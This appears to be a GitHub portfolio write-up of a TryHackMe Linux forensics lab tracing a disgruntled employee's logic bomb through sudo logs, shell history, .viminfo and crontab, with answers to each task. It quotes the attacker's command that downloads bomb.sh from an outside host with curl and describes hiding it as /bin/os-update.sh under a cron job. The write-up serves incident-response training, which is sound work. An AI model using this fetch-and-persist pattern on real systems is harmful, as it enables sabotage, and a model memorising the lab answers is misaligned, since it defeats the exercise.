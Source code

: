 📝 Project Title:

TryHackMe – Disgruntled: Linux Forensics for Post‑Employment Logic Bomb Detection

🎯 Objective:

Investigate a Linux host for signs of malicious insider activity following a suspicious event. Focus on uncovering privilege escalation, unauthorized user creation, script creation and deployment (logic bomb), persistence mechanism via cron, and intended destructive action.

🛠️ Tools Used:

Linux command‑line (grep, cat, ls, cd)
/var/log/auth.log for sudo log auditing
User history analysis (.bash_history, .viminfo)
File metadata inspection (ls ‑la, file timestamps)
Text editors (vi, nano)
crontab analysis

❌ Skills Demonstrated:

Privileged access and process tracking via auth logs
Analysis of insider threat behavior (user creation, logic bomb)
File metadata and script content inspection
Persistence detection via scheduled tasks (cron)
Contextual timeline reconstruction

Project Overview

In this scenario, you assume the role of a Linux forensic analyst in a simulated environment where a disgruntled IT employee may have deployed a logic bomb. You begin by reviewing privileged activity logs in /var/log/auth.log, follow command execution chains through user histories and metadata, identify the logic bomb script and its scheduled activation, and deduce the intended harmful action.

🔍 Task Breakdown


✏️ Task 1: The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

⭕️ Objective: Find the exact command used to install a package with sudo.

⭕️ Method:
grep sudo /var/log/auth.log | grep install
Extract full command.

🔱 Answer: /usr/bin/apt install dokuwiki

✏️ Task 2: What was the present working directory (PWD) when the previous command was run?

⭕️ Objective: Determine what directory the install command was run from.

⭕️ Method: The same auth log entry includes a PWD field.

🔱 Answer: /home/cybert

✏️ Task 3: Which user was created after the package from the previous task was installed?

⭕️ Objective: Find the first user account added post-install.

⭕️ Method:
grep sudo /var/log/auth.log | grep adduser

🔱 Answer: it-admin

✏️ Task 4: A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

⭕️ Objective: Determine when sudo privileges were added to the new user.

⭕️ Method:
grep sudo /var/log/auth.log | grep visudo

🔱 Answer: Dec 28 06:27:34

✏️ Task 5: A script file was opened using the "vi" text editor. What is the name of this file?

⭕️ Objective: Name the script file opened with vi.

⭕️ Method:
grep sudo /var/log/auth.log | grep vi

🔱 Answer: bomb.sh 

✏️ Task 6: What is the command used that created the file bomb.sh?

⭕️ Objective: Identify how the script was created (downloaded).

⭕️ Method:
cat /home/it‑admin/.bash_history | grep curl

🔱 Answer: curl 10.10.158.38:8080/bomb.sh --output bomb.sh

✏️ Task 7: The file was renamed and moved to a different directory. What is the full path of this file now?

⭕️ Objective: Determine where and under what name the script was saved.

⭕️ Method:
cat /home/it‑admin/.viminfo | grep saveas

🔱 Answer: /bin/os-update.sh

✏️ Task 8: When was the file from the previous question last modified? (Format: Month Day HH:MM)

⭕️ Objective: Find when the renamed script was last modified.

⭕️ Method:
ls -la /bin | grep os-update.sh

🔱 Answer: Dec 28 06:29

✏️ Task 9: What is the name of the file that will get created when the file from the first question executes?

⭕️ Objective: Name the file created by the logic bomb.

⭕️ Method:
cat /bin/os-update.sh

🔱 Answer: goodbye.txt

✏️ Task 10: At what time will the malicious file trigger? (Format: HH:MM AM/PM)

⭕️ Objective: Discover when the malicious script is set to execute.

⭕️ Method:
cat /etc/crontab
Use crontab format to decode timing.

🔱 Answer: 08:00 AM

🔍 Analysis and Reflection

💡 Challenges Faced:

Tying sudo log entries to specific user activity
Reconstructing hidden file operations via .viminfo
Decoding cron timing into human-readable form

💡 Lessons Learned:

Linux auth logs are invaluable for untangling insider threats
Shell histories and editor metadata can reveal hidden workflows
Cron job analysis is essential for discovering persistence mechanisms

💡 Relevance to SOC / Incident Response:

Demonstrates tracking of privilege misuse and logic bomb deployment
Shows how forensic artifacts (logs, histories, metadata) tie into a timeline
Useful for developing alerting mechanisms (e.g., new user + cron file change)

💡 Relevance to Penetration Testing / Red Teaming:

Illustrates post‑access misuse and misuse of built‑in tools
Highlights tool misuse and stealth via cron scheduling

✅ Conclusion

Using Linux logs and forensic artifacts, the investigation revealed an illicit script install and scheduling, culminating in the discovery of a logic bomb set to execute at 8 AM. Indicators? New it-admin account, /bin/os-update.sh, and scheduled /etc/crontab entry. Profiling these behaviors helps develop defenses and alerts.

💡 Skills Gained:

Auth.log and sudo history analysis
Reconstruction of post-exploit workflow
Cron-based persistence discovery
Timeline correlation across logs, histories, and filesystem

💡 Next Steps:

Build alerts for unusual sudo installs and user creation
Monitor /etc/crontab and script activity for anomalies
Simulate logic bombs for defense playbooks

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/1-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-2%20Part%20One.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-2%20Part%20Two.%20.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-3%20.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-1%20Part%20Two..png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-2.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-3.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-4.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Two..png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Three.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Four.png) 

